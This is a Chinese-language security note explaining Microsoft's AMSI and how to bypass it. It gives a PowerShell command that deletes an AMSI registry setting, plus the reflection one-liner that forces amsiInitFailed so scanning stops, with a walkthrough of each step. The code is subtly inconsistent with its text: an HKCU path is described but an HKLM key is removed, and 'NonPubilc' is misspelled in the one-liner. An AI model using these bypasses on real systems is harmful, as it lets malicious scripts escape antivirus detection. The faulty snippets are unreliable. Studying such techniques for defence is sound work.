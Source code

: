 ```yaml
---
category:
  - 网络安全
  - 端点安全
tags:
  - Malware
  - 免杀技术
  - AMSI
excerpt: AMSI(Antimalware Scan Interface) 是微软提供的一个标准化接口，旨在增强恶意软件和其他威胁的检测能力，特别是对于那些运行在Windows操作系统上的脚本和解释型代码
---
```


# AMSI


> [amsi绕过总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/11097)

AMSI(Antimalware Scan Interface) 是微软提供的一个标准化接口，旨在增强恶意软件和其他威胁的检测能力，特别是对于那些运行在Windows操作系统上的脚本和解释型代码

> Win10 以及 WindowsSever2016 及之后的版本支持 AMSI 
>
> 低版本(2.0)的powershell是没有amsi的，所以在powershell2.0上执行恶意脚本就不会被检测到
>
> ![image-20240102052708985](http://cdn.ayusummer233.top/DailyNotes/202401020527019.png)

AMSI使得应用程序(如PowerShell、VBScript、JavaScript等) 可以将执行前的代码发送到安装的防病毒软件进行扫描

----

## AMSI Bypass

通过修改内存中的AMSI相关数据，或者利用AMSI实现中的漏洞可以实现 bypass AMSI 从而缓解检测

---

## 禁用或关闭 AMSI

### 改注册表禁用 AMSI

设置注册表`HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable`设置为 0，以禁用
AMSI。

```powershell
Remove-Item -Path "HKLM:\Software\Microsoft\Windows Script\Settings\AmsiEnable" -Recurse
```



---

### 通过命名空间接口关闭AMSI

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPubilc,Static').SetValue($null,$true)
```

1. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`

   - 获取`System.Management.Automation`命名空间下的`AmsiUtils`类的类型信息。

     `AmsiUtils`是处理AMSI相关操作的内部类。

2. `GetField('amsiInitFailed','NonPublic,Static')`

   - 获取`AmsiUtils`类中名为`amsiInitFailed`的字段。

     这个字段是一个私有(NonPublic) 静态(Static) 字段，用于指示AMSI是否初始化失败。

3. `SetValue($null,$true)`

   - 将`amsiInitFailed`字段的值设置为`$true`，意味着伪造AMSI初始化失败的状态。

     这样做的效果是使AMSI停止工作，因为系统认为AMSI无法正确初始化。
